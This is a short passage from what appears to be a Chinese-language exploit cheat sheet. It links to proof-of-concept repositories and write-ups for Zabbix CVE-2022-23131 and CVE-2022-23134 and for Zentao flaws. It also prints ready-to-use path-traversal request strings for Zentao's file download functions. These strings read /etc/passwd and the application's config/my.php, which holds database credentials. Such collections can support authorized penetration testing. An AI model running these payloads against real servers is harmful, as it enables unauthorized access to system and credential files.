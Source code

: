 [Mr-xn/cve-2022-23131](https://github.com/Mr-xn/cve-2022-23131)

[CVE-2022-23134 Zabbix漏洞分析之二：从未授权访问到接管后台](https://mp.weixin.qq.com/s/jq2AvDlHCosb3zViPXGTaQ)

## Zentao

CNVD-2020-65242 后台任意文件下载

```
index.php?m=file&f=sendDownHeader&fileName=2&fileType=1&content=/etc/passwd&type=file
index.php?m=file&f=sendDownHeader&fileName=2&fileType=1&content=./../../config/my.php&type=file
```

后台 im 模块 downloadXxdPackage 函数任意文件下载

```
index.php?m=im&f=downloadXxdPackage&xxdFileName=../../../../../../../../../etc/passwd
```

[Zentao v16.5 SQL Injection POC](https://github.com/z92g/ZentaoSqli/blob/master/CNVD-2022-42853.go)

[禅道12.4.2后台管理员权限Getshell复现](https://mp.weixin.qq.com/s/Uak631OOC48WcshaYnvsRQ)
